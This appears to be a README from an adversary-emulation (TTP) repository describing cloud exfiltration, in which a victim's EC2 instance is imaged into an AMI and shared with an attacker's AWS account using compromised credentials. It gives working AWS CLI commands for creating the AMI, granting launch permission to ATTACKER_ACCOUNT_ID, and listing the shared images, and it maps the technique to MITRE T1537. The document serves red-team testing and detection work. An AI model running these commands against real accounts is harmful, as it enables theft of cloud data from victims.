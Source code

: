 # Transfer Data from one cloud account to another

![Meta TTP](https://img.shields.io/badge/Meta_TTP-blue)

This TTP is used to create an dummy EC2 instance with unencrypted EBS volume and create an AMI from this instance in AWS. This means your sts-caller-identity must be that of the victim when executing the TTP. The AMI is then exposed to the attacker's AWS account. Finally, it confirms the availability of the AMI from the attacker's account by listing all available AMI(s) that originated from the victim's account. This TTP assumes compromised credentials are used to perform these actions.

## Arguments
### (create_and_expose_unencrypted_ebs)
  - **aws_victim_account_name**: AWS account name of the victim.
  - **role**: Account role to be used when communicating with AWS resources.
  - **instance_name**: Name of the EC2 instance to be created
  - **attacker_account_id**: Attacker's AWS account ID to which the created AMI will be exposed.

## Steps

1. Create an EC2 instance with unencrypted EBS volume.
3. Create an AMI from the EC2 instance with the attached unencrypted EBS volume.
4. Modify the permissions of the created AMI to expose it to the attacker's AWS account.
6. Switch to the attacker's AWS profile.
7. Describe all available images that originated from the victim's account ID.

## Manual Reproduction Steps

Create and attach an unencrypted EBS volume

Refer to //cloud/aws/defense-evasion/create-cloud-instance/README.md

Create an AMI from the instance

AMI_ID=$(aws ec2 create-image --instance-id INSTANCE_ID --name "CompromisedInstanceAMI" --no-reboot --output text)

Modify AMI permissions

aws ec2 modify-image-attribute --image-id $AMI_ID --launch-permission "Add=[{UserId=ATTACKER_ACCOUNT_ID}]"

Switch to attacker profile and check AMI availability

awsume attacker-profile
aws ec2 describe-images --owners VICTIM_ACCOUNT_ID

## MITRE ATT&CK Mapping

- **Tactics**:
   TA0010 Exfiltration
- **Techniques**:
   T1537 Transfer Data to Cloud Account
